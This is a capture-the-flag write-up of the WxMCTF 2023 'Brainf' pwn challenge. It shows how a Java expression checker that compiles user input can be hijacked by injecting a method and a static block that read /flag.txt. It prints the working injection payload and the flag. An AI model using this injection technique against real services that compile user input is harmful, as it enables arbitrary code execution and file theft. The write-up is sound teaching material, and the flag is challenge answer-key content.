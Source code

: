 # Brainf - WxMCTF 2023
![](https://img.shields.io/badge/category-pwn-blue) ![](https://img.shields.io/badge/author-BattleMage0231-orange)

## Description
Here at WLMAC, we offer superior courses like ICS5U. Don't believe me? Here's my ICS5U ISP which is a program that can tell you if ANY Java expression is valid. The flag can be located at /flag.txt

Hint: https://docs.oracle.com/javase/tutorial/java/javaOO/initial.html

[ExprChecker.java](dist/ExprChecker.java)

## Solution

Let's try running the Java program locally.

```
This program will check whether a string you enter is a valid Java expression.
For example, "a" + 3 + (4 / 5) and new Object() are valid expressions.
Enter a string: 1 + 2
You entered a valid expression.
```

What if we enter an invalid expression?

```
This program will check whether a string you enter is a valid Java expression.
For example, "a" + 3 + (4 / 5) and new Object() are valid expressions.
Enter a string: abc
Error on line 4: cannot find symbol
  symbol:   variable abc
  location: class Helper
Error on line 4: illegal parenthesized expression
You entered an invalid expression.
```

It looks like the program is dynamically compiling a class called Helper to check whether the expression we entered is valid. We can confirm this by looking at the code.

```java
FileWriter writer = new FileWriter("./Helper.java");
writer.write("public class Helper {\n");
writer.write("    public static int checksum = 1337;\n");
writer.write("    public static Object eval() {\n");
writer.write("        return (Object) (" + expr + ");\n");
writer.write("    }\n");
writer.write("}\n");
writer.close();
```

The check method tries to compile Helper.java and checks if it was successful. It also checks that the value of checksum in the class is 1337, something that we will use later.

But how can we find the flag which is located at /flag.txt on the file system? First, we will realize that Helper.java is vulnerable to code injection. For example, we can supply the payload `3); } static void foo() { /* our code here */ } static void bar() { int a = (3`, which definitely isn't a valid java expression.

```
This program will check whether a string you enter is a valid Java expression.
For example, "a" + 3 + (4 / 5) and new Object() are valid expressions.
Enter a string: 3); } static void foo() { /* our code here */ } static void bar() { int a = (3
You entered a valid expression.
```

```java
public class Helper {
    public static int checksum = 1337;
    public static Object eval() {
        return (Object) (3); } static void foo() { /* our code here */ } static void bar() { int a = (3);
    }
}
```

In foo, we will write to read the flag and print it.

```java
static void foo() {
    try {
        System.out.println((new java.util.Scanner(new java.io.File("/flag.txt"))).nextLine());
    } catch(Exception e) {}
}
```

One problem, ExprChecker.java doesn't actually call any methods in Helper.java. To bypass this, we will exploit static blocks, which allow code to be executed as soon as a class is accessed for the first time. When the program checks the value of checksum, it is accessing the class. We will add `static { foo(); }` to the payload.

Final Payload:
```
3); } static void foo() { try { System.out.println((new java.util.Scanner(new java.io.File("/flag.txt"))).nextLine());} catch(Exception e) {} } static { foo(); } static void bar() { int a = (3
```

```
This program will check whether a string you enter is a valid Java expression.
For example, "a" + 3 + (4 / 5) and new Object() are valid expressions.
Enter a string: 3); } static void foo() { try { System.out.println((new java.util.Scanner(new java.io.File("/flag.txt"))).nextLine());} catch(Exception e) {} } static { foo(); } static void bar() { int a = (3
wxmctf{1_l0ve_5t4t1c_bl0cks_H3fxpZ}
You entered a valid expression.
```

Flag: `wxmctf{1_l0ve_5t4t1c_bl0cks_H3fxpZ}`
